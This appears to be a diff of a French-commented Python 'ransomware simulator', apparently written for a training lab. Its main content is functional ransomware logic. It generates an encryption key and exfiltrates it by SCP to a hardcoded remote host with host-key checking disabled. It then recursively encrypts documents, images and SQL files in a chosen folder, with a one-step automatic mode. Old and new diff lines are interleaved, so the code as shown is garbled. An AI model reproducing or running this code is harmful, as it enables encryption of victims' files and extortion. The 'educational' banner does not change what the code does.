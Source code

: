#!/usr/bin/env python3
# RANSOMWARE SIMULATEUR - VERSION SSH PUR (SANS SSHPASS)
# RANSOMWARE SIMULATEUR - VERSION AVEC MENU INTERACTIF
import os
import sys
import subprocess
from pathlib import Path
from cryptography.fernet import Fernet
from pathlib import Path

# Configuration
SSH_SERVER = "192.168.45.90"
SSH_USER = "doranco"
REMOTE_DIR = "/home/doranco/cle_dechiffrement"
SSH_KEY = "/home/doranco/.ssh/id_ed25519"  # Chemin vers votre clé SSH privée
KEY_FILE = "decryption_key.key"

class RansomwareSimulator:
    def __init__(self):

@@ -18,50 +18,70 @@ class RansomwareSimulator:
        self.cipher = None
        self.target_exts = {'.txt', '.doc', '.docx', '.pdf', '.jpg', '.sql'}
        
    def clear_screen(self):
        """Efface l'écran du terminal"""
        os.system('cls' if os.name == 'nt' else 'clear')
    
    def show_banner(self):
        """Affiche une bannière stylisée"""
        self.clear_screen()
        print("""
██████╗  █████╗ ███╗   ██╗███████╗ ██████╗ ███╗   ███╗
██╔══██╗██╔══██╗████╗  ██║██╔════╝██╔═══██╗████╗ ████║
██████╔╝███████║██╔██╗ ██║███████╗██║   ██║██╔████╔██║
██╔══██╗██╔══██║██║╚██╗██║╚════██║██║   ██║██║╚██╔╝██║
██║  ██║██║  ██║██║ ╚████║███████║╚██████╔╝██║ ╚═╝ ██║
╚═╝  ╚═╝╚═╝  ╚═╝╚═╝  ╚═══╝╚══════╝ ╚═════╝ ╚═╝     ╚═╝
        """)
        print("=== SIMULATEUR ÉDUCATIF - MENU PRINCIPAL ===")
        print("⚠️ À utiliser uniquement en environnement de test ⚠️\n")

    def generate_key(self):
        """Génère une clé de chiffrement"""
        print("🔑 Génération de la clé...")
        print("\n🔑 Génération de la clé...")
        self.key = Fernet.generate_key()
        self.cipher = Fernet(self.key)
        print(f"✅ Clé générée: {self.key.decode()[:12]}...")
        return True

    def transfer_key(self):
        """Transfère la clé via SCP avec authentification par clé"""
    def transfer_key_ssh(self):
        """Transfère la clé via SSH natif"""
        if not self.key:
            print("❌ Aucune clé générée!")
            print("\n❌ Aucune clé générée!")
            return False

        try:
            print("\n🔄 Transfert de la clé...")
            
            # Crée un fichier temporaire
            key_file = "decryption_key.key"
            with open(key_file, 'wb') as f:
            with open(KEY_FILE, 'wb') as f:
                f.write(self.key)
            
            # 1. Crée le répertoire distant
            # Crée le répertoire distant
            subprocess.run([
                'ssh',
                '-i', SSH_KEY,
                f'{SSH_USER}@{SSH_SERVER}',
                f'mkdir -p {REMOTE_DIR}'
            ], check=True)
            
            # 2. Transfère la clé
            # Copie la clé via SCP
            subprocess.run([
                'scp',
                '-i', SSH_KEY,
                '-o', 'StrictHostKeyChecking=no',
                key_file,
                f'{SSH_USER}@{SSH_SERVER}:{REMOTE_DIR}/'
                KEY_FILE,
                f'{SSH_USER}@{SSH_SERVER}:{REMOTE_DIR}/{KEY_FILE}'
            ], check=True)
            
            # Nettoyage
            os.remove(key_file)
            print(f"📤 Clé transférée vers {SSH_SERVER}:{REMOTE_DIR}")
            os.remove(KEY_FILE)
            
            print(f"\n📤 Clé transférée avec succès vers :")
            print(f"   Serveur: {SSH_SERVER}")
            print(f"   Chemin: {REMOTE_DIR}/{KEY_FILE}")
            return True
            
        except subprocess.CalledProcessError as e:
            print(f"❌ Échec du transfert SSH: {e}")
            print(f"\n❌ Échec du transfert SSH: {e}")
            return False

    def encrypt_file(self, filepath):

@@ -83,21 +103,82 @@ class RansomwareSimulator:
            print(f"⚠️ Erreur sur {filepath}: {e}")
            return False

    def encrypt_directory(self, path='.'):
        """Chiffre un dossier"""
        if not os.path.exists(path):
            print("\n❌ Le dossier spécifié n'existe pas!")
            return

        encrypted = errors = 0
        print(f"\n🔒 Début du chiffrement de: {path}")
        
        for root, _, files in os.walk(path):
            for file in files:
                if Path(file).suffix.lower() in self.target_exts:
                    if self.encrypt_file(os.path.join(root, file)):
                        encrypted += 1
                    else:
                        errors += 1
        
        print(f"\n✅ Chiffrement terminé!")
        print(f"   Fichiers chiffrés: {encrypted}")
        print(f"   Erreurs: {errors}")

    def show_menu(self):
        """Affiche le menu interactif"""
        while True:
            self.show_banner()
            print("Options disponibles:")
            print("1. Générer une nouvelle clé")
            print("2. Transférer la clé actuelle")
            print("3. Chiffrer un dossier")
            print("4. Tout faire (mode automatique)")
            print("0. Quitter\n")
            
            choice = input("Votre choix (0-4): ")
            
            if choice == "1":
                self.generate_key()
            elif choice == "2":
                if self.key:
                    self.transfer_key_ssh()
                else:
                    print("\n❌ Vous devez d'abord générer une clé!")
            elif choice == "3":
                if self.key:
                    path = input("\nEntrez le chemin du dossier à chiffrer: ")
                    self.encrypt_directory(path)
                else:
                    print("\n❌ Vous devez d'abord générer une clé!")
            elif choice == "4":
                print("\n🚀 Mode automatique activé...")
                if self.generate_key():
                    if self.transfer_key_ssh():
                        path = input("\nEntrez le chemin du dossier à chiffrer: ")
                        self.encrypt_directory(path)
            elif choice == "0":
                print("\n👋 Au revoir!")
                sys.exit(0)
            else:
                print("\n❌ Option invalide!")
            
            input("\nAppuyez sur Entrée pour continuer...")

if __name__ == '__main__':
    # Vérification des prérequis
    try:
        # Vérifie que SSH est installé
        subprocess.run(['ssh', '-V'], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL, check=True)
        subprocess.run(['scp', '-V'], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL, check=True)
    except:
        print("""❌ Erreur: OpenSSH doit être installé
        sudo apt update && sudo apt install -y openssh-client
        """)
        
        sim = RansomwareSimulator()
        sim.show_menu()
        
    except subprocess.CalledProcessError:
        print("\n❌ Erreur: OpenSSH doit être installé")
        print("Installez-le avec: sudo apt install openssh-client")
        sys.exit(1)

    # Exécution
    sim = RansomwareSimulator()
    if sim.generate_key() and sim.transfer_key():
        print("✅ Opération réussie!")
    else:
        print("❌ Échec de l'opération")
    except KeyboardInterrupt:
        print("\n\n⏹️ Opération annulée par l'utilisateur")
        sys.exit(0)
    except Exception as e:
        print(f"\n❌ Erreur inattendue: {e}")
        sys.exit(1)